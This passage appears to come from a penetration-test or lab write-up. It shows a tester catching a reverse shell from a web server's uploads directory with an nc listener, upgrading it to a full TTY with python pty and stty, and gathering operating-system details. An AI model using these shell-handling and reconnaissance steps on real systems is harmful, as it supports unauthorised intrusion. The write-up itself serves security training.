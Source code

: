 ```shell
$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.134.145] 6588
bash: cannot set terminal process group (985): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$
```

The tester stabilized the shell by opening bash in a tty and preventing Ctrl-C from terminating the `nc` command.

```shell
www-data@webserver:/var/www/html/uploads$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<ds$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@webserver:/var/www/html/uploads$ export TERM=xterm-256color
export TERM=xterm-256color
www-data@webserver:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 9090
$ stty raw -echo ; fg ; reset
[1]  + continued  nc -lvnp 9090 ^M

www-data@webserver:/var/www/html/uploads$
```

## Discovery

The tester gathered operating system information.

```shell
www-data@webserver:/var/www/html$ cat /etc/*release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=23.04
DISTRIB_CODENAME=lunar
DISTRIB_DESCRIPTION="Ubuntu 23.04"
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo

www-data@webserver:/var/www/html$ uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```
